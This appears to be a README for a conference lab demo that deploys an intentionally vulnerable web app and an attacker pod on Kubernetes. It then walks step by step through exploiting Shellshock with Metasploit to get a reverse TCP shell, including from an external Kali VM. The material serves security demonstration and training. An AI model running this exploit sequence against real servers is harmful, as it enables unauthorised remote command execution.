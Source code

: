 # CPX 2021 demo
<!-- vim-markdown-toc GFM -->

* [Requirements](#requirements)
* [Installation](#installation)
* [Demo](#demo)
* [Cleanup](#cleanup)
* [Attacker from external VM](#attacker-from-external-vm)
* [Tips](#tips)

<!-- vim-markdown-toc -->

# Requirements

- [Helm3](https://helm.sh/)
- *Highly recommended*:][K9S](https://github.com/derailed/k9s)
- If you want to demo using the hard way: [kubectl](https://kubernetes.io/docs/tasks/tools/install-kubectl/)

# Installation
> Make sure you are using Helm3 client
```bash
# Install our sushi restaurant web page
helm install -f cpx-sushi/values.yaml --namespace sushi --create-namespace sushi-restaurant cpx-sushi
# Install the attacker client
helm install -f attacker-cpx/values.yaml --namespace attacker --create-namespace attacker-client attacker-cpx
# Ignore the stdout printed by helm
```

# Demo

Run K9S, check the namespace 'vulnerable' and verify there are 2 pods running
there:

- metasploit-client: We will use this as the "attacker machine"
- vuln-app-cpx-helm-vulnerable: We will use this as the "victim machine"

Verify the vulnerable namespace has a LoadBalancer service which is has an
external-IP assigned. Write down this value as we will need it during the
attack phase. This will allow attacking the application even from outside the
K8S cluster.

Start a shell within the metasploit container and execute:
```bash
cd /usr/src/metasploit-framework
./msfconsole -r docker/msfconsole.rc -y $APP_HOME/config/database.yml
# The metasploit framework shall start...
```

Using the metasploit framework we will exploit the <i>apache_mod_cgi_bash_env_exec</i>:
```bash
search shellshock
# Locate the module with the name apache_mod_cgi_bash_env
use exploit/multi/http/apache_mod_cgi_bash_env_exec
# Check available options
show options
# Set RHOST to the external IP of the vuln-app-cpx-helm-vulnerable
set rhost <external-ip>
# You could also use the internal cluster IP since the metasploit pod has visibility of the vulnerable pod
set rport 80
set targeturi /cgi-bin/menu
# Set the payload
set payload linux/x86/shell/reverse_tcp
# Check if target is vulnerable
check
# Exploit vulnerability
exploit
```

At this point you may get multiple sessions opened in background mode. List
them and use one of them to exploit the reverse tcp shell:
```bash
#List sessions
sessions
# Run interactive shell in session #1
sessions -i 1
# Start running commands
whoami
ls -la
```
#Cleanup
```bash
helm uninstall sushi-restaurant -n sushi
helm uninstall attacker-client -n attacker
```
# Attacker from external VM
In order to setup the attacker machine from an external VM running a
distribution like Kali Linux, you will need to assign a public IP address to
this machine so that it is reachable. Additionally, the port where the the
reverse shell connection will be established needs to be allowed for input
connections (i.e: In AWS the security group of the EC2 instance needs to allow
input connections to port <X>)

How to run the exploit is very similar. First ssh into the Kali Linux machine:
```bash
# Start metasploit console
msfconsole
# Follow the same steps that we already described
# We will need to set a few extra options
set lhost <public-ip-of-vm>
set lport <port-that-we-allow-input-connections>
# set lport 4444
check
exploit
```

# Tips

- Use K9S client to demonstrate interactively how to perform the attack, it
  will save sometime if you need to run kubectl all the time

  
  
  
* Based on original demo created [here:] (https://github.com/chkp-ivanmar/cpx-2021-demo) *
